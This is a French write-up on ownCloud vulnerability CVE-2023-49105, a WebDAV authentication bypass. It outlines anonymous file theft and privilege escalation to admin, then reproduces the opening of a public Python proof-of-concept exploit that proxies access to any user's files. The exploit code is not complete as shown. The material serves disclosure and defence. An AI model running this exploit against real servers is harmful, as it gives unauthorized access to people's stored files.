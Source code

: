 ## CVE-2023-49105

![CVE-2023-49105](/images/pwncloud/2023-12-11_16-11.png)

Quelques rappels concernant la vulnérabilité CVE-2023-49105 :
   - Le score CVSS est de 9.8 😨.
   - Il est possible de lire, écrire et supprimer des fichiers en contournant l'authentification de l'Api WebDAV.

Ambionics a sorti un très bon article sur ce sujet : https://www.ambionics.io/blog/owncloud-cve-2023-49103-cve-2023-49105

### En bref

En résumé, il existe 2 scénarios d'exploitation possibles : 

1. **Scénario anonyme** : récupérer tous les fichiers de n'importe quel compte en étant anonyme.
2. **Scénario authentifié** : élever ses privilèges de simple utilisateur en tant qu'administrateur afin d'exécuter des commandes.


👇 Un PoC est disponible sur [GitHub](https://github.com/ambionics/owncloud-exploits/blob/main/pwncloud-webdav.py) et juste en dessous

```python
#!/usr/bin/env python3
# Owncloud Privilege Escalation CVE-2023-49105 pwnCloud
# 2023-12-05
# cfreal
#
# DESCRIPTION
#
# Exploit demonstrating a consequence of CVE-2023-49105: arbitrary access to WEBDAV
# resources, including every file stored by a user.
#
# EXAMPLE
#
# $ ./pwncloud-webdav.py http://target.com/ admin
#
# REQUIREMENTS
#
# requires ten (https://github.com/cfreal/ten)
#

import hashlib
from http.server import SimpleHTTPRequestHandler, ThreadingHTTPServer

from ten import *
from tenlib.transform import url as turl


@entry
def main(url: str, username: str, listen: str = "localhost:8800") -> None:
    # Setup ProxyHandler
    ProxyHandler.session = ScopedSession(url)
    # ProxyHandler.session.burp()
    ProxyHandler.username = username

    # Display info
    msg_success(f"Proxy server running on {listen}")

    dav_url = f"dav://anonymous@{listen}/remote.php/dav"

    msg_info(f"Browse user files: {dav_url}/files/{username}")
    msg_info(f"Browse everything: {dav_url}")
```